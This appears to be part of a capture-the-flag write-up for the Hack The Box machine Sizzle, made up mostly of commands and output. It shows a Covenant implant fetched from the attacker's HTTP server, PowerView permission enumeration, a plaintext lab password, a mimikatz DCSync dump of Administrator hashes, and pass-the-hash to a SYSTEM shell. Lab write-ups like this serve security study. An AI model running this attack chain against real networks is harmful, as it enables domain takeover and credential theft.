








`mv ./Downloads/GruntHTTP.exe ./pwn.exe`

`python3 -m http.server 8080`:
```
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ..
```


`Invoke-WebRequest -Uri http://10.10.14.37:8080/pwn.exe -OutFile C:\Windows\System32\spool\drivers\color\pwn.exe`







```
[01/14/2025 08:55:46 UTC] WhoAmI completed

(nabla) > WhoAmI

HTB\mrlky
```


`locate -i 'powerview.ps1'`:
```
/home/nabla/tools/PowerSploit/Recon/PowerView.ps1
/usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/powerview.ps1
/usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

`cp /home/nabla/tools/PowerSploit/Recon/PowerView.ps1 /home/nabla/tools/Covenant/Covenant/Data/`




```
[01/14/2025 09:48:53 UTC] PowerShellImport completed

(nabla) > PowerShellImport

PowerShell Imported
```
```
[01/14/2025 09:52:14 UTC] PowerShell completed

(nabla) > Powershell Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match "Replication-Get") -or ($_.ActiveDirectoryRights -match "GenericAll") -or ($_.ActiveDirectoryRights -match "GenericWrite") }


AceQualifier           : AccessAllowed
InheritanceFlags       : None
ObjectSID              : S-1-5-21-2379389067-1826974543-3574127760
IsCallback             : False
AceType                : AccessAllowedObject
AuditFlags             : None
PropagationFlags       : None
ObjectAceType          : DS-Replication-Get-Changes-In-Filtered-Set
OpaqueLength           : 0
ActiveDirectoryRights  : ExtendedRight
AccessMask             : 256
AceFlags               : None
BinaryLength           : 56
ObjectDN               : DC=HTB,DC=LOCAL
InheritedObjectAceType : All
SecurityIdentifier     : S-1-5-21-2379389067-1826974543-3574127760-1603
ObjectAceFlags         : ObjectAceTypePresent
IsInherited            : False


AceQualifier           : AccessAllowed
InheritanceFlags       : None
ObjectSID              : S-1-5-21-2379389067-1826974543-3574127760
IsCallback             : False
AceType                : AccessAllowedObject
AuditFlags             : None
PropagationFlags       : None
ObjectAceType          : DS-Replication-Get-Changes📌
OpaqueLength           : 0
ActiveDirectoryRights  : ExtendedRight
AccessMask             : 256
AceFlags               : None
BinaryLength           : 56
ObjectDN               : DC=HTB,DC=LOCAL
InheritedObjectAceType : All
SecurityIdentifier     : S-1-5-21-2379389067-1826974543-3574127760-1603🔍
ObjectAceFlags         : ObjectAceTypePresent
IsInherited            : False

[...]
```
```
[01/14/2025 10:05:02 UTC] PowerShell completed

(nabla) > Powershell Get-DomainObject -LDAPFilter "(objectSid=S-1-5-21-2379389067-1826974543-3574127760-1603)" | Select-Object Name,ObjectSID


name                                     objectsid                              
----                                     ---------                              
mrlky📌                                  S-1-5-21-2379389067-1826974543-35741...
```
```
[01/14/2025 09:23:33 UTC] MakeToken completed

(nabla) > MakeToken mrlky HTB.LOCAL Football#7

Successfully made and impersonated token for user: HTB.LOCAL\\mrlky
```
```
[01/14/2025 09:24:12 UTC] DCSync completed

(nabla) > DCSync Administrator


  .#####.   mimikatz 2.2.0 (x64) #17763 Apr  9 2019 23:22:27
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /user:Administrator /domain:HTB.LOCAL
[DC] 'HTB.LOCAL' will be the domain
[DC] 'sizzle.HTB.LOCAL' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 7/12/2018 12:32:41 PM
Object Security ID   : S-1-5-21-2379389067-1826974543-3574127760-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: f6b7160bfc91823792e0ac3a162c9267🔑
    ntlm- 0: f6b7160bfc91823792e0ac3a162c9267
    ntlm- 1: c718f548c75062ada93250db208d3178
    lm  - 0: 336d863559a3f7e69371a85ad959a675

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 46afe514418e55ba43e7c5a34f2334b9

* Primary:Kerberos-Newer-Keys *
    Default Salt : HTB.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e562d64208c7df80b496af280603773ea7d7eeb93ef715392a8258214933275d
      aes128_hmac       (4096) : 45b1a7ed336bafe1f1e0c1ab666336b3
      des_cbc_md5       (4096) : ad7afb706715e964

* Primary:Kerberos *
    Default Salt : HTB.LOCALAdministrator
    Credentials
      des_cbc_md5       : ad7afb706715e964

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  4b883aa43812ef6ab7f72ac7a946335c
    02  12450f60b592f92b263165d6e8bd26a4
    03  fea89501658f712334ea3fc02c335956
    04  4b883aa43812ef6ab7f72ac7a946335c
    05  694619fbb98d89daf553737089c92ea6
    06  ad1a92b883c22aa475209b4f7c2d34cc
    07  865176e6c59f6725843c95d0dc0e0fc3
    08  9403d6d3e740f0be6e53ca839c2b52f9
    09  f11d8149a7e9e6f1a65756f74dae49e2
    10  22962f47f5e3595b5d6bf44e761a8b46
    11  9403d6d3e740f0be6e53ca839c2b52f9
    12  f1f7dc07c41753399ef1606845380f0c
    13  9f0e858ec9252573605813f9e667d84b
    14  f098db16adbb769ac78cfc7452df10ab
    15  47a550866a0c08c88cd371e28b5bfacb
    16  7d20cd369415a942d3609079251e9dc3
    17  49a4415d5a2514111ca483f0fab63f8c
    18  c75101ba66bedde0f59ce7931e290b64
    19  94c31452afca0e26ba5551b81c780470
    20  571c06a32656321aae90a27b71d7d74f
    21  ba23066c19d0dcad6745fd4963b85a92
    22  114ae36a30cee0bf7f003ac6c0eed5c5
    23  36e50c0b1b91291d82ab676d33bb6994
    24  d465b9a485da80a9ec1e2399d0ae3f4c
    25  9ecdda8403c7ead50ed93c235380c158
    26  2cf16e5372f9066c88f6c8064859c79b
    27  311dc68cd7794b074f548b806a748fe3
    28  c11cbfd3e0bbbf9df995e0c2c970bb66
    29  4a2c20dc6e8fa10f5c78be171cb92ca3
```


`netexec smb 10.10.10.103 -u 'Administrator' -H 'f6b7160bfc91823792e0ac3a162c9267'`:
```
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\Administrator:f6b7160bfc91823792e0ac3a162c9267 (Pwn3d!)🚀
```

`impacket-psexec 'HTB.LOCAL/Administrator@10.10.10.103' -hashes ':f6b7160bfc91823792e0ac3a162c9267'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.103.....
[*] Found writable share ADMIN$
[*] Uploading file jYWabzhf.exe
[*] Opening SVCManager on 10.10.10.103.....
[*] Creating service QgKA on 10.10.10.103.....
[*] Starting service QgKA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
🐚


`whoami`:
```
nt authority\system
```

`dir C:\Users\Administrator\Desktop`:
```
 Volume in drive C has no label.
 Volume Serial Number is 9C78-BB37

 Directory of C:\Users\Administrator\Desktop

02/11/2021  07:29 AM    <DIR>          .
02/11/2021  07:29 AM    <DIR>          ..
01/12/2025  12:19 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  15,237,967,872 bytes free
```

`type C:\Users\Administrator\Desktop\root.txt`:
```
a1f3f***************************🚩
```


---
---
